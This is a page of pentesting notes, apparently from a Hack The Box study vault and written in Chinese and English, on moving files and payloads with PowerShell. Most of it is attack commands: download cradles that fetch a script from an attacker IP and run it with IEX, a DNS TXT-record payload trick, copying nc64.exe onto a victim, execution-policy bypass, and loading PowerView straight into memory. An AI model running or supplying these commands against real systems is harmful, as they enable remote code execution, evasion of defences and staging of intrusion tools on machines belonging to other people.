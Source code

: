 ```powershell
$h=New-Object -ComObject Msxml2.XMLHTTP;$h.open('GET','http://10.10.14.9:8000/ipw.ps1',$false);$h.send();iex $h.responseText
$wr = [System.NET.WebRequest]::Create("http://10.10.14.9:8000/ipw.ps1") $r = $wr.GetResponse() IEX ([System.IO.StreamReader]($r.GetResponseStream())).ReadToEnd(

#https://twitter.com/Alh4zr3d/status/1566489367232651264
#host a text record with your payload at one of your (unburned) domains and do this: 
powershell . (nslookup -q=txt http://some.owned.domain.com)[-1]
```

**下载文件** ^95a867

> [!NOTE] 当下载脚本、字符串被查杀时，[[反弹shell#^f2016a|传递nc64]]有妙用。

```powershell
# 简单：Invoke-WebRequest（别名iwr、wget、curl）、需要"-OutFile"参数。据说较慢
Invoke-WebRequest -uri <攻击机IP>/nc64.exe -outfile [C:\\Windows\Public\]nc64.exe


powershell -ep bypass -c (New-Object Net.WebClient).DownloadFile('<url>','<output>')

(New-Object Net.WebClient).DownloadFileAsync('<Target File URL>','<Output File Name>')



## 参照LOLBAS
certutil.exe

## 微软的Defender下载
powershell -NoProfile -ExecutionPolicy Bypass -Command $d=new-object System.Net.WebClient;$d.Proxy.Credentials=[System.Net.CredentialCache]::DefaultNetworkCredentials;$d.DownloadFile('http://download.microsoft.com/download/DefinitionUpdates/mpam-fe.exe','c:\work\mpam-fe.exe')
```

> PowerShell offers many file transfer options. In any version of PowerShell, the [System.Net.WebClient](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient?view=net-5.0) class can be used to download a file over `HTTP`, `HTTPS` or `FTP`. The following [table](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient?view=net-6.0) describes WebClient methods for downloading data from a resource:

| **Method**                                                                                                           | **Description**                                                                     |
| -------------------------------------------------------------------------------------------------------------------- | ----------------------------------------------------------------------------------- |
| [DownloadFile](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadfile?view=net-6.0)           | Downloads data from a resource to a local file.                                     |
| [DownloadFileAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadfileasync?view=net-6.0) | Downloads data from a resource to a local file without blocking the calling thread. |


#### 报错处理

`-UseBasicParsing`绕过IE首次启动配置尚未完成的阻止下载。
```powershell-session
PS C:\htb> Invoke-WebRequest https://<ip>/PowerView.ps1 | IEX

Invoke-WebRequest : The response content cannot be parsed because the Internet Explorer engine is not available, or Internet Explorer's first-launch configuration is not complete. Specify the UseBasicParsing parameter and try again.
At line:1 char:1
+ Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/P ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ CategoryInfo : NotImplemented: (:) [Invoke-WebRequest], NotSupportedException
+ FullyQualifiedErrorId : WebCmdletIEDomNotSupportedException,Microsoft.PowerShell.Commands.InvokeWebRequestCommand

PS C:\htb> Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing | IEX
```
